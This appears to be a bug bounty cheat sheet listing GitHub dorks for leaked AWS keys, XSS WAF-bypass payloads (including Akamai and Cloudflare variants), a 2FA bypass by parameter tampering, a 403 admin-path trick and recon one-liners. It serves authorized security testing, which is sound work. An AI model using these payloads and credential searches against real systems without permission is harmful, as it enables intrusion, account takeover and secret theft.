 # Bug Bounty Tips File -2
## Github Search for Sensitive Info
```
org:Target "bucket_name"
org:Target "aws_access_key"
org:Target "aws_secret_key"
org:Target "S3_BUCKET"
org:Target "S3_ACCESS_KEY_ID"
org:Target "S3_SECRET_ACCESS_KEY"
org:Target "S3_ENDPOINT"
org:Target  "AWS_ACCESS_KEY_ID"
org:Target  "list_aws_accounts"
```
## XSS Firewall Bypass Techniques
1. Check if firewall is blocking only lowercases
```js
<sCRipT>alert(1)</sCRiPt>
```
2. Try to break firewall regex with new line (\r\n)
```js
<script>%0aalert(1)</script>
```
3. Try double encoding
`%2522`
4. Testing for recursive filters, if firewall removes text in red, we will have clear payload
```js
<scr<script>ipt<alert(1);</scr<script>ipt>
```
5. Injecting anchor tag without whitespaces
```js
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pi&Tab;pt&Tab;alert&lpar;1&rpar;">
```
6. Try to Bypass whitespaces using Bullet
```js
<svg•onload=alert(1)>
```
7. Try to chnage the Request Method
```js
GET /?a=xss

POST /?a=xss
```
**New Payload to Bypass WAF**
```js
<script>alert?.(document?.domain)</script>
```
## Find xmlrpc in single shot
```sh
cat domain.txt | assetfinder --subs-only | httprobe | while read url; do xml=$(curl -s -L $url/xmlrpc.php | grep 'XML-RPC');echo -e "$url -> $xml";done | grep 'XML-RPC' | sort -u
```
## Bypass Multifactor Authentication
1. Notice both the request while login when 2FA is enabled and disabled
2. While 2FA is Disabled :

**Request**
```json
{"email":"abc@mail.com","pass":"password","mfa":null,"code":""}
```
**Response**
```json
Location : https://abc.com/user/dashboard 
```
3. While 2FA is Enabled :

**Resuest**
```json
{"email":"abc@mail.com","pass":"password","mfa":true,"code":""}
```
**Response**
```json
Location : https://abc.com/v1/proxy/authentication/authenticate
```
4. Tamper the Parameter and change the "mfa":null and "code":"" to disable the 2FA
```json
Location : https://abc.com/user/dashboard
```
## DOM XSS
![dom-xss](/Writeups/Bug-Bounty-Tips/img/20201007_195906.jpg)
## WAF Bypass 
![waf-bypass](/Writeups/Bug-Bounty-Tips/img/waf-bypass.jpg)
## Automate Subdomain Takeover
```sh
cat subfinder -dL domain.txt -o sub.txt && subjack -w sub.txt |toslack
```
***Put it on cron to run once a day***
## Akami WAF Bypass
Reflection in "a" tag, attribute context:
```
< => allowed
<anything> => access denied
quotes => allowed
onanything= => access denied
/ or \ or eval() => access denied
```
**Bypass**
```js
"<>onauxclick<>=(eval)(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>+<sss
```
## Find Reflected XSS
1. subfinder + httprobe
```sh
subfinder -d abc.com | httprobe -c 100 > target.txt
cat target.txt | waybackurls | gf xss | kxss
```
2. Check the URL which have all the special characters unfiltered and the paramater was callback=
3. Check Portswigger XSS CheatSheet for more information.
## XSS Cloudflare Bypass
```js
<x/onpointerRawupdate=confirm%26Ipar;1)//x
```
## Bypass Admin Location
1. If GET /admin/ is 403
2. Try this GET /admin;/

